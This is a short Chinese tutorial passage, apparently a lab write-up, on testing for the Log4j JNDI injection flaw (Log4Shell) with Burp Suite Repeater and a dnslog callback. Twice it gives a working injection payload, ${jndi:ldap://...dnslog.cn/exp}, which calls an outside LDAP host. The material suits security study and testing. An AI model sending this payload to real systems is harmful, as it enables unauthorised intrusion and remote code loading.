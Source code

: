 ![image-20220119121623475](https://gitee.com/xxb667/img/raw/master/img/image-20220119121623475.png)



### burp抓包

打开burp进行抓包

![image-20220119114106129](https://gitee.com/xxb667/img/raw/master/img/image-20220119114106129.png)

### 构造payload

构造payload进行发送

```
把第1行的 GET 改成 POST

在最后一行添加：payload=${jndi:ldap://prt1nz.dnslog.cn/exp}
```

![image-20220119114833323](https://gitee.com/xxb667/img/raw/master/img/image-20220119114833323.png)

#### 信息发送给Repeater

把抓到的信息发送给Repeater中

![image-20220119115205242](https://gitee.com/xxb667/img/raw/master/img/image-20220119115205242.png)



#### 在Repeater中进行操作

1. 把第1行的 **GET** 改成 **POST**
2. 在最后1行添加我们构造的payload
3. 任何点击发送

```
payload=${jndi:ldap://prt1nz.dnslog.cn/exp}
```

![image-20220119120406183](https://gitee.com/xxb667/img/raw/master/img/image-20220119120406183.png)



![image-20220119120557024](https://gitee.com/xxb667/img/raw/master/img/image-20220119120557024.png)



![image-20220119115444842](https://gitee.com/xxb667/img/raw/master/img/image-20220119115444842.png)

### 打开dsnlog进行回显

未进行回显

点击刷新记录--信息回显到下面


